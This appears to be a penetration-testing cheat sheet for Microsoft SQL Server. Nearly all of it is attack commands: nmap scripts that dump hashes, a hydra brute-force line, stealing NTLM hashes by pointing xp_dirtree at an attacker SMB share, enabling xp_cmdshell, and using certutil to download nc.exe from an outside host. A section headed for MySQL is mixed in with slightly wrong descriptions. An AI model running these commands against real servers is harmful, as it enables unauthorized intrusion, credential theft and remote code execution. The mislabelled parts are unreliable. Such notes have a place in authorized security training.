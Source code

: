 # MSSQL - 1443

### Get information <a href="#get-information" id="get-information"></a>

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### Brute force <a href="#brute-force-5" id="brute-force-5"></a>

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

### Comandos mysql

```
show databases; - List all databases
use tabela; - select the column
show tables; - List all tables
select * from tabela - List everything from a given table
```

### Having credentials <a href="#having-credentials" id="having-credentials"></a>

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

### Manual exploit <a href="#manual-exploit" id="manual-exploit"></a>

```
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
```
